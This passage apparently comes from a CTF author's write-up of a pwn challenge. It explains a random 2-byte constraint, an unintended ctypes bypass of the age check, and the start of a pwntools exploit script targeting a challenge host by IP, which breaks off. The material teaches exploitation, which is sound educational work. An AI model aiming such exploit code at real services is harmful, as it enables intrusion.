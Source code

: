 ```c
    unsigned int rand_num_2 = (rand()%(upper-lower+1)) + lower;
    memset(region,0,4);
    memcpy(region,&rand_num_2,2);
    *(long *)region &= (unsigned long)rand_num;
    }
    while(*(long *)region<0x1000);
    MProtect(region);
}

```

We create a random 2 byte vulnerable contraint.

Finally the mmaped region is mprotected to be `read-only`. 

Later on , the age is verified with the 2 byte contraint which has to be satisfied by the format string vulnerability.


### An unintended flaw

The only thing I forgot to do was add a check to age (< 0x900) , so that only format string can be used to bypass the check to enter the secret service. 

But since I didn't add a check,  the format string is rendered **useless** as participants can directly calculate the age from the library using **ctypes** or plain python and give that as age :(.

But now I'd like to discuss how you could do it the intended way using format string.

Well , I've included the fixed binary in the handout folder and now u can try the challenges without any unintended flaws :).

### The intended way to get into the secret service

Here's the exploit snippet which mimics the 2 byte contraint.

```python
from pwn import *
import ctypes
from ctypes import *
from time import sleep
import sys

context.arch="amd64"
HOST = '35.245.143.0'
PORT = 7777
LIBC = ELF("./libc.so.6",checksec = False)
libc = ctypes.cdll.LoadLibrary("./libc.so.6")
context.noptrace=True
if(len(sys.argv)>1):
    io=remote(HOST,PORT)
else:
    io=process('./chall')

reu = lambda a : io.recvuntil(a)
sla = lambda a,b : io.sendlineafter(a,b)
sl = lambda a : io.sendline(a)
rel = lambda : io.recvline()
sa = lambda a,b : io.sendafter(a,b)
re = lambda a : io.recv(a)
s = lambda a : io.send(a)


#Defining functions for various heap operations

def add(idx,size,data):
    sla(">> ",'1')
```